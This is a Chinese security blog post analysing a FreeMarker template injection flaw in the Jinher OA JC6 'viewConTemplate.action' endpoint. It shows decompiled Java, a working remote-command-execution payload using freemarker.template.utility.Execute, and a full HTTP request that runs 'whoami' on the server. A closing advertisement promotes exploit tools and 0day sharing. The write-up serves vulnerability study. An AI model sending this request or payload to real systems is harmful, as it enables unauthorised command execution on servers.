 #  金和OA JC6 FreeMarker模板注入漏洞简析   
原创 chobits02  C4安全团队   2024-06-10 21:51  
  
    
点击**星标**  
关注公众号，不再迷路~  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTKibORjdHmN1koMPJsibjeKRRNe5bzW6LZbcrP6nrulZkElKkapLMIoXbEKh91xOARoJCfO62pw7GQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
## 01 分析  
  
**开局一张图，CSDN上分享出来的只带POC的文章**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRQtJT1xEqdzIiasibF5h0TAPP5icrteurBRiatn69TkFicp1x6pHdzAAM6WHqvngWQIfvLQ8xicZ8TZotg/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞出现在  
viewConTemplate.action  
方法中，完整URL为：  
```
/jc6/platform/portalwb/portalwb-con-template!viewConTemplate.action
```  
  
金和Jc6完全由Java开发编写，因此审计时候直接反编译Jar文件即可  
  
搜索  
viewConTemplate方法，位于  
portalwbConTemplateAction类中  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRQtJT1xEqdzIiasibF5h0TAPdAWQMBibQRYUcmTWkdPSIgfCqePzqXpvfBozsoO5yibyxXYVKauKFUIw/640?wx_fmt=png&from=appmsg "")  
  
  
viewConTemplate方法的代码很短很简单，来分析下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRQtJT1xEqdzIiasibF5h0TAPiaopM9Picul6NWELiaaeN7CnLddGUxRg16r85ucRHVUwepibNAiagW9L5lA/640?wx_fmt=png&from=appmsg "")  
  
  
首先代码如下：  
```
FileOutputStream out = null;
    try {
      String sameName = this.uuid + ".ftl";
      File file = new File(PortalTemplateUtil.TEMPLATE_TEMP_DIR);
      if (!file.exists())
        file.mkdirs(); 
      out = new FileOutputStream(PortalTemplateUtil.TEMPLATE_TEMP_DIR + File.separator + sameName);
      String code = this.request.getParameter("code");
      code = URLDecoder.decode(code, "UTF-8");
      code = code.replaceAll("&lt;", "<").replaceAll("&quot;", "\"").replaceAll("&#39;", "'").replaceAll("&gt;", ">").replaceAll("&nbsp;", " ").replaceAll("<br />", "").replaceAll("<p>", "").replaceAll("</p>", "").replaceAll("&amp;", "&");
      byte[] b = code.getBytes();
      out.write(b);
      out.flush();
      try {
        if (out != null)
          out.close(); 
      } catch (IOException e) {
        e.printStackTrace();
      }
```  
  
  
判断是否存在临时目录，不存在则新建目录和文件名  
```
String sameName = this.uuid + ".ftl";
File file = new File(PortalTemplateUtil.TEMPLATE_TEMP_DIR);
if (!file.exists())
file.mkdirs(); 
out = new FileOutputStream(PortalTemplateUtil.TEMPLATE_TEMP_DIR + File.separator + sameName);
```  
  
  
通过code参数接收模板内容，并替换编码的字符  
```
String code = this.request.getParameter("code");
code = code.replaceAll("&lt;", "<").replaceAll("&quot;", "\"").replaceAll("&#39;", "'").replaceAll("&gt;", ">").replaceAll("&nbsp;", " ").replaceAll("<br />", "").replaceAll("<p>", "").replaceAll("</p>", "").replaceAll("&amp;", "&");
```  
  
之后写入临时文件中  
```
byte[] b = code.getBytes();
out.write(b);
out.flush();
```  
  
接着来到渲染模板的功能  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRQtJT1xEqdzIiasibF5h0TAPZ6hclW1Z9VCqgkFRJaxCME94mEAvLKZjEIAEbkWd1LUUTRGKeY6J1w/640?wx_fmt=png&from=appmsg "")  
  
  
  
此处读取临时文件内容，并渲染成Freemarker的模板，因为模板内容可以指定就造成了注入漏洞  
  
咱们构造POC为：  
```
code=${"freemarker.template.utility.Execute"?new()("whoami")}
```  
  
使用Freemarker自带的 freemarker.template.utility.Execute类里面命令执行方法，执行获取回显  
  
  
  
  
之后根据前端页面接收参数，再传参uuid、moduId进行请求  
  
  
  
  
构造请求数据包如下：  
```
POST /jc6/platform/portalwb/portalwb-con-template!viewConTemplate.action HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

moduId=1&code=${"freemarker.template.utility.Execute"?new()("whoami")}&uuid=1
```  
  
执行whoami命令，获得当前身份回显  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRQtJT1xEqdzIiasibF5h0TAP4iaicBEemoUDNvoGBy3qHxhReB7HowT8ovOXEBIRLBVHpALupH2DFFWw/640?wx_fmt=png&from=appmsg "")  
  
至此FreeMarker模板注入漏洞分析完毕  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRQtJT1xEqdzIiasibF5h0TAPEibHQia0ek1GatlxxeibWvd6ibpWSsVian2MvwBdzFgGNGQCqEOtSSk4apw/640?wx_fmt=png&from=appmsg "")  
  
  
端午节快乐  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRQtJT1xEqdzIiasibF5h0TAPoPZsibLDOIRvGqT9d7n97aMyz7ic5UoCknibq7OfpUPluCWRkQqYt3zLg/640?wx_fmt=png&from=appmsg "")  
  
**加入「安全渗透感知大家族」，你会获得:**  
  
**1.内部分享的漏洞利用工具；**  
  
**2.实战挖掘漏洞时的Tips和注意点；**  
  
**3.各类网安资料、漏洞挖掘思路、免杀、代码审计实例、CTF等文章；**  
  
**4.0 day漏洞不定期分享和利用分析；**  
  
**5.内部交流社群；**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRQtJT1xEqdzIiasibF5h0TAP9EvE9Mmc3XFXNcCRrraG2SHzP2hnK6XYlTHJfK8Ntx8TYCJUWBkpZA/640?wx_fmt=png&from=appmsg "")  
  
  
  
**网安资源资源定期更新**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRQtJT1xEqdzIiasibF5h0TAPia9RIg821TmsIrgUAQ4qlpwKicnLFOEsgTN9xftfY0kts8QqnVMiaErSA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJRQtJT1xEqdzIiasibF5h0TAPNiaGGiboKz2skkB5LAsyjdticStUO04X0ZVJg6vjvYMRoMvcVWQhX8Opw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
END  
  
  
关注HackingWiki漏洞感知  
  
了解更多安全相关内容~  
  
  
  
  

